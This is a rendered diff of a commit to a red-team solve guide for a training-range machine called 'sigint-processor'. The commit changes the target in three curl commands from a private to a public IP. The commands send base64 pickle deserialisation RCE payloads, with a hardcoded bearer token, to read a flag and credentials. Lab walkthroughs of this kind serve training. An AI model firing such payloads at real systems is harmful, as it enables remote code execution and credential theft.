

Before and after one commit to hacktifytechnologies/Red-Range1, a Markdown page: machines/M4-sigint-processor/solve_red.md, 3 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/machines/M4-sigint-processor/solve_red.md
+++ b/machines/M4-sigint-processor/solve_red.md
@@ -111,6 +115,6 @@ cat /tmp/payload.txt
 ```python
 # STEP 2: Send payload
-curl -s -X POST http://172.24.4.209:5000/api/signal/process \
+curl -s -X POST http://195.0.0.58:5000/api/signal/process \
   -H "Authorization: Bearer DSRT-SIG-4a7f2c91" \
   -H "Content-Type: application/json" \
   -d "{\"payload\":\"$(cat /tmp/payload.txt)\",\"format\":\"binary\",\"source\":\"COL-A1\"}"
@@ -128,7 +133,7 @@ class RCE:
 print(base64.b64encode(pickle.dumps(RCE())).decode())
 PYEOF
 
-curl -s -X POST http://172.24.4.209:5000/api/signal/process \
+curl -s -X POST http://195.0.0.58:5000/api/signal/process \
   -H "Authorization: Bearer DSRT-SIG-4a7f2c91" \
   -H "Content-Type: application/json" \
   -d "{\"payload\":\"$(cat /tmp/p_flag.txt)\",\"format\":\"binary\",\"source\":\"COL-A1\"}"
@@ -146,7 +152,7 @@ class RCE:
 print(base64.b64encode(pickle.dumps(RCE())).decode())
 PYEOF
 
-curl -s -X POST http://172.24.4.209:5000/api/signal/process \
+curl -s -X POST http://195.0.0.58:5000/api/signal/process \
   -H "Authorization: Bearer DSRT-SIG-4a7f2c91" \
   -H "Content-Type: application/json" \
   -d "{\"payload\":\"$(cat /tmp/p_creds.txt)\",\"format\":\"binary\",\"source\":\"COL-A1\"}"
````
Also changed, not shown: other parts of machines/M4-sigint-processor/solve_red.md (+7 -0 lines).
